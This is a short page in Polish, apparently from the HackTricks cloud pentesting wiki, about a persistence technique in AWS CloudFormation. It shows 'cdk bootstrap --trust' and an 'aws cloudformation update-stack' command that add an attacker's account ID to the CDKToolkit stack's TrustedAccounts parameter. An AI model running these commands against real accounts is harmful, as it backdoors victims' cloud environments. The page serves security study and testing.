 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Aby uzyskać więcej informacji, uzyskaj dostęp do:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK wdraża stos CFN o nazwie `CDKToolkit`. Ten stos obsługuje parametr `TrustedAccounts`, który pozwala zewnętrznym kontom na wdrażanie projektów CDK w koncie ofiary. Atakujący może to wykorzystać, aby przyznać sobie nieograniczony dostęp do konta ofiary, korzystając z AWS cli do ponownego wdrożenia stosu z parametrami lub z AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
